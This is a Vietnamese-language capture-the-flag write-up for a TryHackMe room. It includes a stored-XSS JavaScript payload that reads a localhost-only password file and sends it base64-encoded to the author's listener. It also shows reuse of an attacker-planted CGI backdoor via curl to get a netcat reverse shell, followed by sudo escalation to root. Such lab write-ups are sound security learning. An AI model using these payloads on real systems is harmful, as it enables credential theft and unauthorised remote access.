


[***Link thử thách***](https://tryhackme.com/room/whyhackme)

## Thu nhập thông tin

### Nmap scan

Đầu tiên, mình thực hiện scan các port thì thấy một số thông tin quan trọng như:

- Port FTP mở và cho phép đăng nhập với tư cách khách, bên trong có một file `update.txt`.
- Port SSH sẽ khả dụng sau này.
- Port HTTP và đang phục vụ bằng `Apache 2.4.41`.
- Và một port khá đáng ngờ nhưng không thể truy cập.

```shell
PORT      STATE    SERVICE VERSION
21/tcp    open     ftp     vsftpd 3.0.3 # [!code highlight:1]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.17.67.204
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230) # [!code highlight:3]
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)
|   256 cb:29:97:dc:fd:85:d9:ea:f8:84:98:0b:66:10:5e:6f (ECDSA)
|_  256 12:3f:38:92:a7:ba:7f:da:a7:18:4f:0d:ff:56:c1:1f (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome!!
41312/tcp filtered unknown # [!code highlight:1]
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Dịch vụ FTP

Truy cập vào dịch vụ FTP và thực hiện lấy file `update.txt`.

```shell
ftp 10.201.82.126
Connected to 10.201.82.126.
220 (vsFTPd 3.0.3)
Name (10.201.82.126:CloseUrEyes): anonymous # [!code highlight:1]
331 Please specify the password.
Password:  # [!code highlight:1]
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||36920|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt # [!code highlight:1]
226 Directory send OK.
ftp> get update.txt # [!code highlight:2]
local: update.txt remote: update.txt
229 Entering Extended Passive Mode (|||49563|)
150 Opening BINARY mode data connection for update.txt (318 bytes).
100% |****************************************************************************************************************|   318        2.69 KiB/s    00:00 ETA
226 Transfer complete.
318 bytes received in 00:00 (0.73 KiB/s)
```

```txt title="update.txt"
Hey I just removed the old user mike because that account was compromised
and for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt
and don't worry this file is only accessible by localhost(127.0.0.1), so nobody 
else can view it except me or people with access to the common account. 
- admin
```

Nội dung chính của file `update.txt` nói rằng chỉ `localhost` mới có thể truy cập vào `/dir/pass.txt`.

### Website

Truy cập vào website, giao diện của nó như sau:



Mình sử dụng công cụ `gobuster` để scan các enpoint, từ nội dung trên mình cũng xác định được website này sử dụng `PHP`.

```shell
gobuster dir -u http://10.201.82.126/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php
```

```shell
/.php                 (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 563]
/blog.php             (Status: 200) [Size: 3102]
/login.php            (Status: 200) [Size: 523]
/register.php         (Status: 200) [Size: 643]
/dir                  (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.201.82.126/assets/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/.php                 (Status: 403) [Size: 278]
```

## Flag 1

### Lỗ hổng XSS

Phát hiện trang đăng ký tài khoản, mình thực hiện đăng ký tài khoản để xem có gì đặc biệt không.


Đăng ký tài khoản xong thì mình thấy trong trang blog có phần comment.


Nghĩ ngay đến XSS, nhưng mình thử thì không thành công.


Sau một khoảng thời gian, mình khai thác thành công XSS (Gợi ý tí là nó không nằm trong nội dung comment).


Dựa vào thông điệp lúc nãy, mình viết một script nhỏ với mục đích khi server thực thi file này, nó sẽ đọc file `/dir/pass.txt` sau đó gửi nội dung về lại cho mình ở dạng `base64`.

```js title="xss-exploit.js"
fetch("http://127.0.0.1/dir/pass.txt")
  .then(r => r.text())
  .then(data => {
    fetch("http://10.17.67.204:8080/?data=" + btoa(data));
  });
```

Payload mình chèn vào như sau:

```js
<script src="http://10.17.67.204:8080/xss-exploit.js"></script>
```

Mình mở `python http` và reload lại website để server thực thi và request về bên mình kèm theo `base64` đã mã hóa.


### Truy cập người dùng jack và flag

Giải mã `base64` thì mình nhận được thông tin đăng nhập của người dùng `jack`.


Tại `home` của `jack` có file `user.txt` chứa flag.


## Flag 2

Mình kiểm tra những thứ mà người dùng này có thể dùng với `sudo`.

```shell
jack@ubuntu:~$ sudo -l
Matching Defaults entries for jack on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jack may run the following commands on ubuntu:
    (ALL : ALL) /usr/sbin/iptables # [!code highlight:1]
```

Tại đây người dùng này có thể dùng `sudo` đối với `iptables`.

Kiểm tra sơ qua thì mình thấy ngay vấn đề ban đầu thắc mắc, các gói tin đi qua port `41312` đều bị `DROP`.

```shell
jack@ubuntu:~$ sudo iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         
DROP       tcp  --  anywhere             anywhere             tcp dpt:41312  # [!code highlight:1]
ACCEPT     all  --  anywhere             anywhere            
ACCEPT     all  --  anywhere             anywhere             ctstate NEW,RELATED,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:ssh
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:http
ACCEPT     icmp --  anywhere             anywhere             icmp echo-request
ACCEPT     icmp --  anywhere             anywhere             icmp echo-reply
DROP       all  --  anywhere             anywhere            

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
ACCEPT     all  --  anywhere             anywhere
```

Mình chuyển trạng thái lại từ `DROP` thành `ACCEPT`.

### File urgent.txt

Khi **đi dạo** thì mình thấy trong thư mục `opt` có 2 file như sau:



File `urgent.txt` nói rằng họ bị ***hack*** và có một số file bên trong `/usr/bin/cgi-bin` vàhọ không thể xóa nó dù ở quyền `root`.

Khả năng đó là payload của kẻ tấn công và mình có thể tận dụng nó.

### File capture.pcap

Mình sử dụng công cụ `Wireshark` phân tích file `capture.pcap` thì không nhận được thông tin gì vì các gói tin đã được mã hóa do dùng `TLS`.

Tìm trong cấu hình `Apache` mình biết được key giải mã `apache.key` ở `/etc/apache2/certs/`.

```shell
<VirtualHost *:41312>
        ServerName www.example.com
        ServerAdmin webmaster@localhost
        #ErrorLog ${APACHE_LOG_DIR}/error.log
        #CustomLog ${APACHE_LOG_DIR}/access.log combined
        ErrorLog /dev/null
        SSLEngine on
        SSLCipherSuite AES256-SHA
        SSLProtocol -all +TLSv1.2
        SSLCertificateFile /etc/apache2/certs/apache-certificate.crt
        SSLCertificateKeyFile /etc/apache2/certs/apache.key  # [!code highlight:1]
        ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
        AddHandler cgi-script .cgi .py .pl
        DocumentRoot /usr/lib/cgi-bin/
        <Directory "/usr/lib/cgi-bin">
                AllowOverride All 
                Options +ExecCGI -Multiviews +SymLinksIfOwnerMatch
                Order allow,deny
                Allow from all
        </Directory>
</VirtualHost>
```

Tải về và nhập key này vào giao thức `TLS`.


### Reverse shell

Các gói tin đã được giải mã và mình tìm được một stream như sau:


Kẻ tấn công đã sử dụng file `5UP3r53Cr37.py` và một số parameter khác, trong đó có `cmd=id`.

Kết quả trả về là kết quả của lệnh `id`.

Tận dụng điều này, mình gửi request tương tự như kẻ tấn công để xác nhận xem có khả thi hay không.

```shell
curl -k -s 'https://10.201.82.126:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id'

<h2>uid=33(www-data) gid=1003(h4ck3d) groups=1003(h4ck3d)
<h2>

# Tùy chọn -k: Cho phép thực hiện kết nối HTTPS mà không cần xác thực
```

Kết quả trả về cho thấy payload này hoàn toàn khả thi, mình thực hiện mở một `reverse shell` và vào được tài khoản `www-data`.

```shell
nc -lvnp 7304
listening on [any] 7304 ...
connect to [10.17.67.204] from (UNKNOWN) [10.201.82.126] 52184
bash: cannot set terminal process group (903): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$
```

Có shell rồi, mình sử dụng kỹ thuật `Stabilizing` để có thể tương tác shell linh hoạt hơn.

```shell
┌──(CloseUrEyes㉿CtrlZet)-[~/workspace/tryhackme/challenges/whyhackme]
└─$ nc -lvnp 7304
listening on [any] 7304 ...
connect to [10.17.67.204] from (UNKNOWN) [10.201.82.126] 52184
bash: cannot set terminal process group (903): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ python3 -c 'import pty;pty.spawn("/bin/bash");'
<in$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@ubuntu:/usr/lib/cgi-bin$ export TERM=xterm
export TERM=xterm
www-data@ubuntu:/usr/lib/cgi-bin$ ^Z
zsh: suspended  nc -lvnp 7304
                                                                                                                                                             
┌──(CloseUrEyes㉿CtrlZet)-[~/workspace/tryhackme/challenges/whyhackme]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 7304

www-data@ubuntu:/usr/lib/cgi-bin$
```

Kiểm tra `sudo` như khi nãy thì thấy rằng tài khoản `www-data` có thể sử dụng lệnh `sudo` cho tất cả mọi thứ.

```shell
www-data@ubuntu:/usr/lib/cgi-bin$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
```

### Truy cập người dùng root và flag

Sử dụng `sudo su` để chuyển sang tài khoản `root`, sau đó truy cập vào thư mục `root` sẽ có file chứa flag.


